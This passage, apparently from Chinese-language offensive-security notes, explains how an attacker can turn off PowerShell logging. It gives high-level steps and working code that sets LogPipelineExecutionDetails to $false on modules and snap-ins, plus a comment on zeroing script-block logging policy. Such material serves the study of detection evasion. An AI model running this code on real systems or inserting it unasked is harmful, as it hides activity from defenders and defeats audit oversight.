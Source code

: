            # $GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
            # 这假设 $GroupPolicySettings 是一个嵌套字典，且键名直接对应。
            ```
            
        
        执行此脚本后，当前 PowerShell 会话中后续的脚本块和模块调用可能不再被详细记录到事件日志中（具体效果取决于 PowerShell 如何缓存和应用这些设置）。
        
    2. **滥用日志管道属性 (Abusing Log Pipeline Properties)**:
        
        - PowerShell 中的每个模块 (Module) 和已注册的旧式管理单元 (PSSnapin) 对象都有一个名为 `LogPipelineExecutionDetails` 的布尔属性。
        - 根据微软文档，“当 `LogPipelineExecutionDetails` 属性的值为 `TRUE` (`$true`) 时，Windows PowerShell 会将 cmdlet 和函数执行事件写入会话中的 Windows PowerShell 日志（在事件查看器中查看）。”
        - 攻击者可以将此属性的值在当前会话中动态更改为 `$false`，以禁用特定模块或管理单元的详细流水线执行日志记录。微软文档甚至提到了从用户会话中禁用日志记录的能力：“要禁用日志记录，请使用相同的命令序列将属性值设置为 `FALSE` (`$false`)。”
        - **高层步骤**:
            1. 获取目标模块的对象 (例如，使用 `Get-Module`)。
            2. 将其 `LogPipelineExecutionDetails` 属性设置为 `$false`。
            3. (如果适用) 获取目标 PSSnapin 的对象 (例如，使用 `Get-PSSnapin`)。
            4. 将其 `LogPipelineExecutionDetails` 属性设置为 `$false`。
        - **PowerShell 代码示例**:
            
            PowerShell
            
            ```
            # 禁用特定模块的详细日志
            try {
                $TargetModuleName = "Microsoft.PowerShell.Utility" # 或其他目标模块
                $module = Get-Module -Name $TargetModuleName -ErrorAction SilentlyContinue
                if ($module) {
                    $module.LogPipelineExecutionDetails = $false
                    Write-Host "Disabled LogPipelineExecutionDetails for module: $TargetModuleName"
                } else {
                    Write-Warning "Module $TargetModuleName not found."
                }
            } catch {
                Write-Warning "Error disabling module logging: $_"
            }
            
            # 禁用特定 PSSnapin 的详细日志 (PSSnapin 是旧技术，但可能仍存在)
            try {
                $TargetSnapinName = "Microsoft.PowerShell.Core" # 或其他目标管理单元
                $snapin = Get-PSSnapin -Name $TargetSnapinName -Registered -ErrorAction SilentlyContinue # -Registered 查看已注册的
                if ($snapin) {
                    $snapin.LogPipelineExecutionDetails = $false
                    Write-Host "Disabled LogPipelineExecutionDetails for PSSnapin: $TargetSnapinName"
                } else {
                    Write-Warning "PSSnapin $TargetSnapinName not found or not loaded."
                }
            } catch {
                Write-Warning "Error disabling PSSnapin logging: $_"
            }
            ```
            